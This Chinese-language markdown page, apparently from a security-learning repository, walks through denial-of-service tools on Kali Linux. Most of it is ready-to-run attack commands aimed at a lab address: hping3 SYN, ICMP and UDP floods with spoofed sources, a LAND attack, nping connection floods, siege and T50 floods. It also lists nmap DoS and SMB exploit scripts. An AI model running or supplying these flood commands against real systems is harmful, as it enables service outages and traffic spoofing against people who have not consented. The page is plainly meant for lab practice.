 
# 拒绝服务攻击工具

* rudy
* Hping3
* nping
* Siege
* T50
* nmap

## rudy
* 简介
1. 慢速应用层HTTP POST攻击，与slowhttptest原理相同
1. 每次只传输一个字节的数据
1. 美剧黑客军团”中曾提到此攻击手段
1. 攻击有表单WEB页面，攻击时需指定攻击的参数名称
1. https://sourceforge.net/projects/r-u-dead-yet/

* 测试
``` 
root@kali:~/rudy# ls
BeautifulSoup.py   README          r-u-dead-yet-v2.2.py  socks.pyc
BeautifulSoup.pyc  rudeadyet.conf  socks.py

```

* 修改配置文件
``` 
root@kali:~/rudy# ./r-u-dead-yet-v2.2.py

```

## Hping3

* 简介
1. 几乎可以定制发送任何 TCP/IP 数据包，用于测试 FW、端口扫描、性能测试
2. syn flood 攻击
``` 
hping3 -c 1000 -d 120 -S -w 64 -p 80 –flood –rand-source 10.10.10.132
hping3 -S -P -U -p 80 –flood –rand-source 10.10.10.132
hping3 -SARFUP -p 80 –flood –rand-source 10.10.10.132 (TCP Flood)
```   

3. ICMP Flood 攻击
``` 
hping3 -q -n -a 1.1.1.1 –icmp -d 200 –flood 10.10.10.132

```   

4. UDP Flood 攻击
``` 
hping3 -a 1.1.1.1 –udp -s 53 -d 100 -p 53 –flood 10.10.10.132

```   

* 攻击
1. syn_flood 攻击
``` 
root@kali:~# hping3 -c 1000 -d 120 -S -w 64 -p 80 --flood --rand-source 10.10.10.132

hping3 -S -P -U -p 80 --flood --rand-source 10.10.10.132

```   

2. tcp_flood 攻击
``` 
-a 伪造源地址
root@kali:~# hping3 -q -n -a 1.1.1.1 --icmp -d 200 --flood 10.10.10.132
```   


3. udp_flood 攻击
``` 
root@kali:~# hping3 -a 1.1.1.1 --udp -s 53 -d 100 -p 53 --flood 10.10.10.132

```

* LAND 攻击
> 特殊种类的 SYN Flood 攻击   
  源地址和目的地址都是靶机IP，受害者和自己完成三次握手
``` 
root@kali:~# hping3 -n -a 10.10.10.132 -S -d 100 -p 80 --flood 10.10.10.132

```


## nping
* TCP 全连接 DoS 攻击
``` 
nping –tcp-connect –rate=10000 -c 1000000000 -q 10.10.10.132

```

* 查公网 IP
``` 
nping –echo-client “public” echo.nmap.org –udp

```  

## Siege 
> http/https 压力测试工具，模拟多个用户并发访问请求  
  siege -g http://10.10.10.132  
  siege -i -c 1000 http://10.10.10.132 -A siegehttp  
  同时攻击多个 url ，使用 -f 调用字典文件  
  单独使用 siege -i -c 1000 ，也会调用字典文件（url 列表）  
``` 
# 查看 banner 信息
root@kali:~# siege -g http://10.10.10.132

root@kali:~# siege -i -c 1000 http://10.10.10.132 -A Mozilla/5.0

root@kali:~# cat /etc/siege/urls.txt

root@kali:~# siege -i -c 1000


```

## T50
* 网络压力测试
``` 
t50 10.10.10.132 –flood –turbo -S –protocol TCP –dport 80
t50 10.10.10.132 –flood –turbo -S TCP UDP OSPF EIGRP –dport 22
```

## nmap
``` 
root@kali:~# grep dos /usr/share/nmap/scripts/script.db | cut -d "\"" -f 2
broadcast-avahi-dos.nse
http-slowloris.nse
ipv6-ra-flood.nse
smb-flood.nse
smb-vuln-conficker.nse
smb-vuln-cve2009-3103.nse
smb-vuln-ms06-025.nse
smb-vuln-ms07-029.nse
smb-vuln-ms08-067.nse
smb-vuln-ms10-054.nse
smb-vuln-regsvc-dos.nse

```



